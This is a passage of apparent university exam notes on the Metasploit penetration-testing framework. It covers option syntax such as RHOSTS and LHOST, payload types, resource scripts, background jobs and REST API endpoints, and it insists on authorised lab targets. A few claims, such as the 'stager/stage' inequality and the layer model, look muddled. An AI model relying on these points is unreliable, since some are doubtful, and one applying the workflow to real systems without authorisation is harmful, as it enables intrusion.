> [JSON decode + token validation: 2 Marks]
> [Return typed dictionary with Authorization header: 1 Mark]

---

> [!WARNING]
> **KTU Examiner's Valuation Warning — Common Pitfalls for This Topic**
> 1. **Confusing `msfconsole` with `msfrpcd`.** They are *different* components — the former is interactive, the latter is a daemon.
> 2. **Forgetting `RHOSTS` (plural).** `RHOST` (singular) is a deprecated alias; KTU expects the plural form for modern MSF.
> 3. **Skipping the `set PAYLOAD` step.** Many exploits have *no default payload*; running `exploit` without one will raise a "No payload selected" error.
> 4. **Not writing the `exploit` output.** The examiner awards marks for the *transcript*, not just the command.
> 5. **Omitting the `-j` flag explanation** in resource-script questions. This is a guaranteed 2-mark loss.
> 6. **Using absolute paths in `RHOSTS`** without explaining CIDR / file-range syntax. KTU expects explicit notation such as `set RHOSTS 192.168.56.0/24` or `set RHOSTS file:/tmp/targets.txt`.

---

## Topic Recap & Important Things to Remember

- **Metasploit Framework** is the industry-standard *authorised* exploitation platform used in penetration testing, red-team operations, and compliance validation.
- The **7 module categories** are: Exploit, Payload, Auxiliary, Post, Encoder, NOP, Evasion — memorise all seven.
- The **4 architectural layers** are: Interface, Core, Library, Persistence (PostgreSQL).
- The **4 engagement phases** are: Reconnaissance, Vulnerability Mapping, Exploitation, Post-Exploitation.
- **RHOSTS** = target(s), **LHOST** = attacker callback, **LPORT** = callback port, **PAYLOAD** = post-exploitation cargo.
- **Reverse payloads require LHOST**; **bind payloads do not** — this is a recurring 2-3 mark question.
- **Resource scripts (`.rc`)** use `#` for comments and are invoked via `msfconsole -r script.rc`.
- The flag **`exploit -j`** runs the module as a background job; the flag **`exploit -z`** auto-backgrounds the resulting session.
- The **Stager / Stage algebra** satisfies the inequality $B \ge S_{stager} \ll S_{stage}$, making two-stage delivery mathematically necessary.
- The **REST API** lives at `https://127.0.0.1:8443/api/v1`, requires a 60-minute bearer token, and is invoked via `/auth`, `/consoles`, `/consoles/{id}/write`, `/consoles/{id}/read`.
- **Ethical mandate:** All Metasploit operations in KTU labs must target `Metasploitable 2/3`, `DVWA`, `HackTheBox`, or the **KTU Cyber Range** — never unauthorised systems.
- The **MSF database** (`msfdb init`) initialises PostgreSQL, creates the `msf` role, and applies schema migrations.
- The **`irb` command** drops the operator into a Ruby REPL for advanced scripting (`run_single`, loops, conditionals).
- **Workspace isolation** (`workspace -a name`) is the canonical KTU method for separating multiple engagements in the same database.

---
<!-- SECTION_5_END -->
